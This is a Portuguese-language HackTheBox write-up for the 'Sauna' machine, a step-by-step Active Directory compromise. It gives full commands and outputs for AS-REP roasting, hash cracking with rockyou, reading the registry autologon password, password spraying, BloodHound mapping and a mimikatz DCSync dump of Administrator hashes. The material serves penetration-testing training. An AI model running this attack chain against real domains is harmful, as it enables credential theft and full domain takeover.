


1. [Resolução da máquina **Sauna**](#resolução-da-máquina-sauna) 1. [Máquina Easy (hackthebox.com)](#máquina-easy-hacktheboxcom) 2. [by **_JavaliMZ_** - 15/09/2021](#by-javalimz---15092021)
2. [Enumeração](#enumeração)
    1. [Nmap](#nmap)
3. [Web Server](#web-server)
4. [AS-REP Roasting Attack](#as-rep-roasting-attack)
    1. [GetNPUsers.py](#getnpuserspy)
        1. [**_Pwn3d!_**](#pwn3d)
5. [Primeiro pé na máquina](#primeiro-pé-na-máquina)
6. [BloodHound](#bloodhound)
7. [Escalada de Privilégios](#escalada-de-privilégios)


# Resolução da máquina **Sauna**

#### Máquina Easy (hackthebox.com)

#### by **_JavaliMZ_** - 15/09/2021

---

---

# Enumeração

Como sempre, para qualquer PenTest, precisamos saber qual é o alvo. E o primeiro passo para isso é enumerar as portas da máquina! Uma das melhores e mais conhecidas ferramentas para enumerar as portas de uma máquina ou conjunte de máquina é o NMAP.

## Nmap


```powershell
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49675,49676,49677,49700,49720 10.10.10.175 -vvv -oN enumeration/nmap-A.txt -Pn
```

```txt
# Nmap 7.91 scan initiated Wed Sep 15 21:03:01 2021 as: nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49675,49676,49677,49700,49720 -vvv -oN enumeration/nmap-A.txt -Pn 10.10.10.175
Nmap scan report for 10.10.10.175
Host is up, received user-set (0.041s latency).
Scanned at 2021-09-15 21:03:02 WEST for 96s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2021-09-16 03:03:10Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack Microsoft Windows RPC
49720/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 35558/tcp): CLEAN (Timeout)
|   Check 2 (port 54801/tcp): CLEAN (Timeout)
|   Check 3 (port 18966/udp): CLEAN (Timeout)
|   Check 4 (port 57297/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-09-16T03:04:00
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 15 21:04:38 2021 -- 1 IP address (1 host up) scanned in 97.34 seconds

```

Pela quantidade de portas, sabemos que não estamos perante um "tamagotchi"... Isso aparenta ser um Active directory ou um Domain Controller... Tem kerberos, samba, RPC, HTTP...

Neste ponto, há já diversas coisas que quero tentar... primeiro o servidor http claro, ver se podemos entrar no servidor samba, Tentar loggar por RPC, e tentar um AS-REP Roasting attack, Mas vamos com calma!

# Web Server


A passear pelo site, não se vê nada de interessante a não ser a página about.html que poderá ter potenciais usuários de uma eventual empresa (Já que é um Active directory ou um Domain Controller)

Numa empresa, os usuários costumam ser identificados por primeira letra dos primeiros nomes, e ultimo nome completo. junto, ou separado por um ponto. Isto é extremamente comum... Por isso, vamos extrair esse potenciais usuários para um ficheiro, e daí fazer um arquivo com usernames.


```powershell
cat users-full-name
#>  Fergus Smith
#>  Hugo Bear
#>  Steven Kerb
#>  Shaun Coins
#>  Bowie Taylor
#>  Sophie Driver


cat users-full-name | tr '[A-Z]' '[a-z]'
#>  fergus smith
#>  hugo bear
#>  steven kerb
#>  shaun coins
#>  bowie taylor
#>  sophie driver

cat users-full-name | tr '[A-Z]' '[a-z]' | awk '{print substr ($1,0,1) $2}'
#>  fsmith
#>  hbear
#>  skerb
#>  scoins
#>  btaylor
#>  sdriver

cat users-full-name | tr '[A-Z]' '[a-z]' | awk '{print substr ($1,0,1) "." $2}'
#>  f.smith
#>  h.bear
#>  s.kerb
#>  s.coins
#>  b.taylor
#>  s.driver

cat users-full-name | tr '[A-Z]' '[a-z]' | awk '{print substr ($1,0,1) $2}' > users

cat users-full-name | tr '[A-Z]' '[a-z]' | awk '{print substr ($1,0,1) "." $2}' >> users
```

Temos agora uma lista de usuários potenciais para efectuar a próxima tentativa de attack. AS-REP Roasting Attack!.

# AS-REP Roasting Attack

Uma das tecnologias de autenticação da Microsoft Active Directory é o Kerberos. Um artigo excelente sobre o que é o Kerberos e sobre o attack AS-REP Roasting Attack pode encontrar-se em https://thehackernews.com/2021/09/what-is-as-rep-roasting-attack-really.html

Uma das primeiras etapas de autenticação Kerberos é a pré-autenticação. A pré-autenticação usa a senha do usuário para encriptar um carimbo de data / hora. O controlador de domínio (DC) irá decriptar isso para validar a senha correta e não ter uma solicitação anterior repetida. Uma vulnerabilidade pode ocorrer quando a pré-autenticação é desabilitada.

Uma vez desativado, quando um atacante solicita dados de autenticação de qualquer usuários, o DC retornará um "Ticket" de concessão de "Ticket" criptografado (TGT). Ele pode então ser crackeado por força bruta em um ambiente offline.

Para isso existem diversas ferramentas. Para esta máquina irei utilizar uma que, com ajuda da nossa lista de potenciais usuários, irá solicitar um TGT de cada usuário, e se o usuário existir e tiver a opção "Do not require Kerberos preauthentication", iremos receber diretamente um TGT.

## GetNPUsers.py

Ainda antes do attack AS-REP Roasting Attack, poderíamos tentar ver recursos SMB e RPC, que são mais rápidos. Mas adiento já que não se vai ver nada para ambos. No entanto, para futuros ataques, precisamos saber mais informações sobre a máquina... Durante a tentativa de conexão por SMB, é possível recolher informações sobre o nome do domínio, e assim informar o nosso /etc/hosts para que haja menos problemas nos ataques futuros.

```powershell
crackmapexec smb 10.10.10.175
#>  SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)

echo -e "10.10.10.175\tegotistical-bank.local" >> /etc/hosts
```

Voltando ao ataque!

```powershell
GetNPUsers.py egotistical-bank.local/ -no-pass -usersfile users

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

#>  $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:dcecde1c889b334ce8fb8c780630858c$f2d663a9e24489da9f6a9110b200d0415358986116b420981c8ff008249860e26980e63227897851604ad1a70eb736ecf1c50c35e25ce9aa4b610933da2d3dbe09997f9b4ab23d40cbebd4b4d91883955eabde113779f169218345682da950ed03b1505aaaaf51961ac51caf0cfb884384e3bc8ea5c1adaaed9865195a7d2310a62d122f163d728efb16f2a587e7c7583410a4f6b99ed90a7d4f01f9afdf42e184eca8225478fafa76d0bba00b600acce66a93d3c2879a17f0305977c2f53043c5a01391d290ba9abdd563709d117c256c85bb106f0748c2261f0b91633eb4207ee4ad2fb3e5c001690a8e72a140d88aeca2d687cc92c13031b03d0631c980f5
#>  [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
#>  [-] Kerberos ...
#>  [-] ...
#>  ...
```

O que é isso? **$krb5asrep$23$fsmith**... é o tal TGT do usuário fsmith! Agora, se a palavra pass estiver no rockyou.txt (Lista enorme de palavras passes que, em seu tempo, vazou na internet), é pssível crackear esse TGT com a ajuda da ferramenta "John the Ripper".

```powershell
nano fsmith_hash  # paste the hash and save...
john --wordlist=/usr/share/wordlists/rockyou.txt fsmith_hash  # Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
```

Já temos uma credencial. Temos de validá-lo! Para isso, o crackmapexec é muito útil!

```powershell
# Sabemos que o serviço SMB está activo.
crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'

#>  SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
#>  SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23


# E sabemos também que o serviço WinRM está também activo.
crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'

#>  WINRM       10.10.10.175    5985   SAUNA            [*] Windows 10.0 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
#>  WINRM       10.10.10.175    5985   SAUNA            [*] http://10.10.10.175:5985/wsman
#>  WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```

### **_Pwn3d!_**

O Crackmapexec nos diz que as credenciais estão válidas para ambos os serviços, mas no winrm informa-nos que está **_Pwn3d!_**. Isto significa que podemos entrar a vontade sem ser barrado por nenhum segurança xD


# Primeiro pé na máquina

Sabemos que é um Active Directory / Domain Controller. A primeira coisa a fazer num AD/DC é enumerar todos os usuários. Existem 2 tipos de usuários. Usuários Locais, e usuários de domínio. Para enumerar os usuários locais, podemos efectuar um "net users":

```powershell
net users
#>
#>  User accounts for \\
#>
#>  -------------------------------------------------------------------------------
#>  Administrator            FSmith                   Guest
#>  HSmith                   krbtgt                   svc_loanmgr
```

Adicionemos esse usuários à nossa lista... Não me foi possível enumerar os usuários de domínio através de "Get-DomainUser", nem com "wmic useraccount get name,sid"...

O segundo passo é ver se existem passwords por defeito. Esta máquina é uma simulação de uma empresa (Muito pequena certo, mas em grande escala as coisas funcionam exatamente da mesma maneira...), Portanto, existe sempre a possibilidade de os administradores decidirem adicionar uma palavra pass por defeito, para que a posterior, depois de criar um novo usuário, esse usuário altere a password para uma da sua escolha. O problema é que, se não for definido no windows para ser obrigatória a mudança de password no próximo login, os usuário podem ser preguiçoso e não alteram esta password por defeito. Até mesmo os administradores... como iremos ver neste caso...

Poderíamos utilizar o winPEAS64.exe para obter esta informação, mas com uma única linha de commando, podemos abrir o REG do "autologon" e descobrir a tal password por defeito...

```powershell
cmd /c 'reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON"'

#>  ...
#>  DefaultPassword    REG_SZ    Moneymakestheworldgoround!
#>  ...
```

Com essa password, podemos efectuar um ataque de spray a todos os usuários para tentar ver se algum tem essa password... Existem montes de ferramentas, mas vamos tentar sempre usar ao máximo as ferramentas que já utilizamos. Crackmapexec! (E não esquecer que para esta máquina, utilizamos o crackmapexec tanto em modo SMB como WINRM por esse 2 serviços estarem ligados e operaionais!)

```powershell
crackmapexec smb 10.10.10.175 -u users -p 'Moneymakestheworldgoround!'
#> SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\fsmith:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\hbear:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\skerb:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\scoins:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\btaylor:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\sdriver:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\f.smith:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\h.bear:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\s.kerb:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\s.coins:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\b.taylor:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\s.driver:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\Administrator:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\FSmith:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\Guest:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\HSmith:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\krbtgt:Moneymakestheworldgoround! STATUS_LOGON_FAILURE
#> SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:Moneymakestheworldgoround!
```

BINGO! Encontrámos mais uma credential válida => **svc_loanmgr:Moneymakestheworldgoround!** Não esquecer de validar a credencial, em SMB e WINRM pelo crakmapexec também...



Mesma história... Este novo usuário tem privilégios para aceder à máquina via WinRM provavelmente por ser membro de um groupo chamado **_"BUILTIN\Remote Management Users"_**

# BloodHound

Já dentro da máquina, Mesmo tendo um shell verdadeiro e tal, nunca é fácil ver tudo rapidamente, nem é fácil saber por que caminho ir... Para além da mencionada ferramenta winPEAS64.exe, disponível no github, hà uma ferramenta espetacular para visualizar em modo gráfico todos os ramos entre usuários e groupos de todo um domain controller! Esta ferramenta é a **BloodHound**. O programa precisa de uma base de dados, o neo4j, que é uma base de dados graph.

```powershell
sudo neo4j start

bloodhound &>/dev/null &
```

Agora que dados por nessa base de dados?!

Existem também diversas ferramentas lol (como quase tudo em PenTesting), mas acho que a mais cómoda e de forma totalmente remota desde o meu Kali-Linux é com a ferramenta **_"bloodhound-python"_**

```powershell
bloodhound-python -c All -u fsmith -p 'Thestrokes23' -d egotistical-bank.local -ns 10.10.10.175 -dc egotistical-bank.local
```


Importe o resultado para o bloodhound




Este videograma é um mini exemplo do que se pode fazer com BloodHound. Isto representa todo o AD/DC e permite filtrar e encontrar caminhos mais facilmente...

O parte final do video indica um caminho potencial, e indica também o que fazer para comprometer o domain controller! Com a credential que temos do user svc\*loanmgr, temos possibilidade de nos converter no usuário de domínio que queremos. BloodHound também nos indica a ferramenta a utilizar para isso! \*\*\_MIMIKATZ**\* e até o comando adequado **_lsadump::dcsync /domain:testlab.local /user:Administrator_\*\*

Essa vulnerabilidade existe porque o usuário svc_loanmgr tem privilégios de DS-Replication-Get-Changes-All e de DS-Replication-Get-Changes no Domínio. Esse dois privilégios em conjunto permite executar o que é chamado de DCSync attack. É parecido ao que acontece quando se tem privilégios locais de SeImpersonatePrivileges, mas em Domain Controller.

# Escalada de Privilégios

```powershell
# Atenção ao link... só posso garantir estar válido AGORA MESMO enquanto escrevo...
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip
```

```powershell
# Evil-winrm tem uma opção de upload... (Não é perciso certutil.exe, ou IWR, ou outras formas de transferir ficheiros)
upload mimikatz.exe
.\mimikatz.exe 'lsadump::dcsync /domain:egotistical-bank.local /user:Administrator' exit

#>  ...
#>  ** SAM ACCOUNT **
#>
#>  SAM Username         : Administrator
#>  Account Type         : 30000000 ( USER_OBJECT )
#>  User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
#>  Account expiration   :
#>  Password last change : 7/26/2021 9:16:16 AM
#>  Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
#>  Object Relative ID   : 500
#>
#>  Credentials:
#>    Hash NTLM: 823452073d75b9d1cf70ebdf86c7f98e
#>      ntlm- 0: 823452073d75b9d1cf70ebdf86c7f98e
#>      ntlm- 1: d9485863c1e9e05851aa40cbb4ab9dff
#>      ntlm- 2: 7facdc498ed1680c4fd1448319a8c04f
#>      lm  - 0: 365ca60e4aba3e9a71d78a3912caf35c
#>      lm  - 1: 7af65ae5e7103761ae828523c7713031
#>  ...
```

A resposta é comprida... mas pelo meio encontra-se o Hash NTML do usuário de domínio Administrator. Verificamos as credenciais, sempre com a mesma ferramenta crackmapexec


E já somos donos de todo o Domain Controller! Podemos fazer o que quisermos... Agora podemos facilmente ver as flags...

```powershell
cmd /c 'dir /r /s root.txt user.txt'  # As flags encontram-se repetidos e diferentes locais. Para não se procurar muito manualmente lool
type 'C:\Users\Administrator\Desktop\root.txt'
#>  1e5fcd4ecf49643b2ef3cf..........
type 'C:\Users\FSmith\Desktop\user.txt'
#>  f60d2f69c67ec56ad618ef..........
```
